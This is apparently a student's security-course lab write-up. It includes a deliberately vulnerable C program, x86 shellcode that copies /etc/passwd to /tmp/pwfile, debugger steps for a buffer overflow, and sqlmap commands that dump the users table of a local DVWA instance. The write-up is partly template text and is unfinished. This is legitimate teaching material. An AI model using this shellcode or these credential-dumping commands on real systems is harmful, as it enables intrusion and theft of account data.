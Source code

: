 # Lab #1,22110070, Dinh To Quoc Thang, INSE330380E_01FIE
# Task 1: Software buffer overflow attack
Given a vulnerable C program 
```
#include <stdio.h>
#include <string.h>
void redundant_code(char* p)
{
    local[256];
    strncpy(local,p,20);
	printf("redundant code\n");
}
int main(int argc, char* argv[])
{
	char buffer[16];
	strcpy(buffer,argv[1]);
	return 0;
}
```
and a shellcode source in asm. This shellcode copy /etc/passwd to /tmp/pwfile
```
global _start
section .text
_start:
    xor eax,eax
    mov al,0x5
    xor ecx,ecx
    push ecx
    push 0x64777373 
    push 0x61702f63
    push 0x74652f2f
    lea ebx,[esp +1]
    int 0x80

    mov ebx,eax
    mov al,0x3
    mov edi,esp
    mov ecx,edi
    push WORD 0xffff
    pop edx
    int 0x80
    mov esi,eax

    push 0x5
    pop eax
    xor ecx,ecx
    push ecx
    push 0x656c6966
    push 0x74756f2f
    push 0x706d742f
    mov ebx,esp
    mov cl,0102o
    push WORD 0644o
    pop edx
    int 0x80

    mov ebx,eax
    push 0x4
    pop eax
    mov ecx,edi
    mov edx,esi
    int 0x80

    xor eax,eax
    xor ebx,ebx
    mov al,0x1
    mov bl,0x5
    int 0x80

```
**Question 1**:
- Compile asm program and C program to executable code. 
- Conduct the attack so that when C program is executed, the /etc/passwd file is copied to /tmp/pwfile. You are free to choose Code Injection or Environment Variable approach to do. 
- Write step-by-step explanation and clearly comment on instructions and screenshots that you have made to successfully accomplished the attack.
**Answer 1**: Must conform to below structure:

a) Compile asm program and C program to executable code. 
-C program:
``` 
    seed@6f32731f3ee3:~/seclabs/bof$ gcc -g vuln1.c -o vuln1.out -fno-stack-protector
```
-asm program:
```
seed@6f32731f3ee3:~/seclabs/bof$ nasm -f elf32 -o shellcode.o shellcode.asm
seed@6f32731f3ee3:~/seclabs/bof$ ld -o shellcode shellcode.o
```

b) Conduct the attack so that when C program is executed, the /etc/passwd file is copied to /tmp/pwfile. You are free to choose Code Injection or Environment Variable approach to do. 

-Need to find the exact number of bytes to overwrite the return address, that is 20 bytes.
```
r $(python -c "print('A' * 32)")
```
-When the program crashes, use info registers esp to see the address of ESP (stack pointer), this is where the shellcode will be located.
```
info registers esp
```
![alt text](Screenshot 2024-10-21 093246.png)

output screenshot (optional)

**Conclusion**: comment text about the screenshot or simply answered text for the question

# Task 2: Attack on database of DVWA
- Install dvwa (on host machine or docker container)
- Make sure you can login with default user
- Install sqlmap
- Write instructions and screenshots in the answer sections. Strictly follow the below structure for your writeup. 

**Question 1**: Use sqlmap to get information about all available databases
**Answer 1**:
a) I find about the vulnerability of the SQL injection page in DVWA
-When submit id=1 it show this URL:
```
http://localhost/vulnerabilities/sqli/?id=1&Submit=Submit#
```
-I change "id=1" to "id=1'" and I got an SQL related error message, which could indicate that the site might be vulnerable to SQL injection.:
```
http://localhost/vulnerabilities/sqli/?id=1'&Submit=Submit#
```
![alt text](Screenshot 2024-10-21 100741.png)

b)Use sqlmap to get information about all available databases
```
python sqlmap.py -u "http://localhost/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=6o88lqnu5evhq7m6tio1bsnmg2; security=low" --dbs
```
![alt text](Screenshot 2024-10-21 103025.png)


**Question 2**: Use sqlmap to get tables, users information
**Answer 2**:
a) Use sqlmap to get tables:
```
python sqlmap.py -u "http://localhost/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=6o88lqnu5evhq7m6tio1bsnmg2; security=low" -D dvwa --tables
```
-This is table of dvwa:
![alt text](Screenshot 2024-10-21 103822.png)

b) Use sqlmap to get users informations:
```
python sqlmap.py -u "http://localhost/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=6o88lqnu5evhq7m6tio1bsnmg2; security=low" -D dvwa -T users --dump
```

-This is users informations:
![alt text](Screenshot 2024-10-21 104553.png)

**Question 3**: Make use of John the Ripper to disclose the password of all database users from the above exploit
**Answer 3**:
